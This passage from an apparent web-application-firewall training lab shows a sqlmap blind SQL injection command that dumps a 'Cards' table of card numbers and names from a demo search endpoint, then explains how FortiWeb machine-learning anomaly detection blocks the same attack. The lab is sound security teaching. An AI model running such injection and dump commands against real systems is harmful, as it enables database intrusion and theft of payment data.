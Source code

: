4. Now that we know what tables are available, we can start extracting information.  For our example here, the **Cards** table looks interesting.  Let's see if we can pull something useful from there.

```sh

 sqlmap -u "http://34.29.253.139/rest/products/search?q=" --technique=B -T Cards --threads 10 --dump

```

```plaintext output

...[SNIP]...
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] N
Database: <current>
Table: Cards
[6 entries]
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
| id | UserId | 255 | cardNum          | expYear | expMonth | fullName         | createdAt                      | updatedAt                      |
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
| 1  | 4      | 255 | 4815205605542754 | 2092    | 12       | Bjoern Kimminich | 2022-03-28 17:02:26.911 +00:00 | 2022-03-28 17:02:26.911 +00:00 |
| 2  | 17     | 255 | 1234567812345678 | 2099    | 12       | Tim Tester       | 2022-03-28 17:02:27.287 +00:00 | 2022-03-28 17:02:27.287 +00:00 |
| 3  | 1      | 255 | 4716190207394368 | 2081    | 2        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
| 4  | 1      | 255 | 4024007105648108 | 2086    | 4        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
| 5  | 2      | 255 | 5107891722278705 | 2099    | 11       | Jim              | 2022-03-28 17:02:27.330 +00:00 | 2022-03-28 17:02:27.330 +00:00 |
| 6  | 3      | 255 | 4716943969046208 | 2081    | 2        | Bender           | 2022-03-28 17:02:27.344 +00:00 | 2022-03-28 17:02:27.344 +00:00 |
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
...[SNIP]...

```

## Attack 3 ML Anomaly Detection

We will use the same SQL injection from the Burp Suite exercise in Attack 2 above.  As we will see, FortiWeb Machine Learning (ML) will successfully block this attack.  Using ML, FortiWeb creates a statistical data model based on "normal" observed traffic.  This occurs during an initial learning period.  As discussed at the beginning of Class, any request that falls outside of this statistical distribution is considered an anomaly and will be passed to the second layer of ML, which is the FortiGuard powered Threat Engine.  In a production environment, it is highly recommended to turn on both the Signature based Web Protection Profile and ML, as this gives the best opportunity to catch both known and unknown attacks.
